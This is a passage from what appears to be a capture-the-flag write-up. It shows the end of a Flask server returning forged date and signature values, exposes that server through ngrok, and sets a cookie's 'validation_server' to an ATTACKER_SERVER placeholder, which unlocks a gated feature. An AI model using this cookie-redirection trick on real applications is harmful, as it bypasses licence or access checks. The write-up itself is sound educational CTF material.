 ```python
    return jsonify({
        'date': date,
        'signature': signature
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

Start the server, then use some service like `ngrok` to expose the local port `1337` to the internet.

Update the `preferences` cookie, e.g.

```json
{ "validation_server": "https://ATTACKER_SERVER", "theme": "light", "language": "en" }
```

Finally, visit the challenge URL with the `debug` GET parameter set to `true`.

```
http://127.0.0.1:5000/release?debug=true
```

We get a hit in the server logs!

```bash
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:1337        |
+-------------------------+----------------------------------+
200		GET	/pubkey
200		GET	/
```

The feature is now unlocked!

![](./images/2.PNG)